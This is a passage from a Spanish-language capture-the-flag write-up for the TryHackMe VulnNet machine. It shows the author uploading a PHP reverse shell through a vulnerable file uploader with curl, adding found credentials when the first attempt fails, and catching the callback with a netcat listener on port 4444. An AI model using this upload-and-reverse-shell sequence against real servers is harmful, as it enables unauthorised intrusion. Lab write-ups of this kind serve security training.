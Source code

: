 ```bash
/usr/share/webshells/php/php-reverse-shell.php
```

<p align="center">
<img src="/assets/images/writeup-maquina-thm-vulnet/2021-04-18_13-56.png">
</p>

como podemos solo modifique en la shell mi ip y un puerto al que se conectara, asi que ahora probe el comando curl que viene en el exploit

```bash
curl -F "file=@shell.php" -F "plupload=1" -F "name=shell.php" "http://broadcast.vulnnet.thm/actions/beats_uploader.php"
```
<p align="center">
<img src="/assets/images/writeup-maquina-thm-vulnet/2021-04-18_13-59.png">
</p>

que mal al utilizar dicho comando me sale un error, el mensaje dice algo como que el servidor no encuentra que este autorizado para realizar dicha solicitud, asi viendo los comandos de curl probe agregar las credenciales que encontre y con las que me autentifique en dicha web

```bash
curl -F "file=@shell.php" -F "plupload=1" -F "name=shell.php" "http://broadcast.vulnnet.thm/actions/beats_uploader.php -u developers:9972761drmfsls"
```
<p align="center">
<img src="/assets/images/writeup-maquina-thm-vulnet/2021-04-18_14-06.png">
</p>

genial, nos salio como respuesta que se subio nuestra shell, ahora me tarde viendo donde encuentro dicha shell jaja. pero revisando un exploit de metasploit pude encontrar la ruta

<p align="center">
<img src="/assets/images/writeup-maquina-thm-vulnet/2021-04-18_14-11.png">
</p>

bueno la ruta era muy obvia jeje pero listo ahora dejemos el puerto 4444 en escucha y ejecutemos nuestra shell en nuestro navegador

```bash
nc -nlvp 4444
```

<p align="center">
<img src="/assets/images/writeup-maquina-thm-vulnet/2021-04-18_14-16.png">
</p>

genial tenemos shell

<p align="center">
<img src="/assets/images/writeup-maquina-thm-vulnet/2021-04-18_14-18.png">
</p>

